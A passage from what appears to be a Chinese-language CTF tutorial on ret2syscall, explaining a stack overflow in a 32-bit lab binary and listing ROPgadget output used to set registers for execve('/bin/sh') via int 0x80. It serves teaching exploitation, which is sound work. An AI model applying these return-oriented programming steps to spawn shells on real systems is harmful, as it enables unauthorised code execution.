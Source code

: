 可以看出此次仍然是一個棧溢出。類似於之前的做法，我們可以獲得 v4 相對於 ebp 的偏移爲 108。所以我們需要覆蓋的返回地址相對於 v4 的偏移爲 112。此次，由於我們不能直接利用程序中的某一段代碼或者自己填寫代碼來獲得 shell，所以我們利用程序中的 gadgets 來獲得 shell，而對應的 shell 獲取則是利用系統調用。關於系統調用的知識，請參考：

- https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8

簡單地說，只要我們把對應獲取 shell 的系統調用的參數放到對應的寄存器中，那麼我們在執行 int 0x80 就可執行對應的系統調用。比如說這裏我們利用如下系統調用來獲取 shell：

```C
execve("/bin/sh",NULL,NULL)
```

其中，該程序是 32 位，所以我們需要使得

- 系統調用號，即 eax 應該爲 0xb
- 第一個參數，即 ebx 應該指向 /bin/sh 的地址，其實執行 sh 的地址也可以。
- 第二個參數，即 ecx 應該爲 0
- 第三個參數，即 edx 應該爲 0

而我們如何控制這些寄存器的值 呢？這裏就需要使用 gadgets。比如說，現在棧頂是 10，那麼如果此時執行了pop eax，那麼現在 eax 的值就爲 10。但是我們並不能期待有一段連續的代碼可以同時控制對應的寄存器，所以我們需要一段一段控制，這也是我們在 gadgets 最後使用 ret 來再次控制程序執行流程的原因。具體尋找 gadgets的方法，我們可以使用 ropgadgets 這個工具。

首先，我們來尋找控制 eax 的gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

可以看到有上述幾個都可以控制 eax，我選取第二個來作爲 gadgets。

類似的，我們可以得到控制其它寄存器的 gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
